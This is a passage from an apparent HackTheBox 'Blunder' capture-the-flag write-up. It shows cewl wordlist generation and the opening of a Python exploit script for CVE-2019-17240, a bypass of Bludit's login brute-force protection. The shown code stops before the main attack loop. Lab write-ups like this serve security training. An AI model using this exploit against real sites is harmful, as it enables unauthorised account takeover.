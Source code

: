 #### Wordlist

Rather than jumping to `rockyou.txt`, we can first try a wordlist generated from the website itself, Using `cewl` we can generate a custom wordlist from the site and name it as `pass.txt`

```shell
cfx:  ~/Documents/htb/blunder
→ cewl http://10.10.10.191 > pass.txt
```
I'll the remove cewl banner from the list which leaves us with 349 words.

### Exploit.py

Rastating has already given a POC script, but the vanilla version of the script can't be used to brute-force in this case.

With reference to the original script, I created a exploit of my own which can be found [**here**](https://github.com/ColdFusionX/CVE-2019-17240-Exploit-Bludit-BF-bypass) where I have showcased the exploit usage in detail.

The exploit takes three user inputs `login url, user.txt and pass.txt` where user.txt contains the potential list of usernames to be used in brute force (fergus in our case), pass.txt is the dictionary of passwords. For `X-Forwarded-For` header the scripts inputs values from the pass.txt and also tells if any word gets blocked during brute force by the site.

#### Exploit Code

```python
#Author: ColdFusionX (Mayank Deshmukh)

import requests
import sys
import re
import argparse, textwrap
from pwn import *

#Expected Arguments
parser = argparse.ArgumentParser(description="Bludit <= 3.9.2 Auth Bruteforce Mitigation Bypass", formatter_class=argparse.RawTextHelpFormatter,
epilog=textwrap.dedent('''
Exploit Usage :
./exploit.py -l http://127.0.0.1/admin/login.php -u user.txt -p pass.txt
./exploit.py -l http://127.0.0.1/admin/login.php -u /Directory/user.txt -p /Directory/pass.txt'''))

parser.add_argument("-l","--url", help="Path to Bludit (Example: http://127.0.0.1/admin/login.php)")
parser.add_argument("-u","--userlist", help="Username Dictionary")
parser.add_argument("-p","--passlist", help="Password Dictionary")
args = parser.parse_args()

if len(sys.argv) < 2:
    print (f"Exploit Usage: ./exploit.py -h [help] -l [url] -u [user.txt] -p [pass.txt]")
    sys.exit(1)

# Variable
LoginPage = args.url
Username_list = args.userlist
Password_list = args.passlist

log.info('Bludit Auth BF Mitigation Bypass Script by ColdFusionX \n ')

def login(Username,Password):
    session = requests.session()
    r = session.get(LoginPage)

# Progress Check
```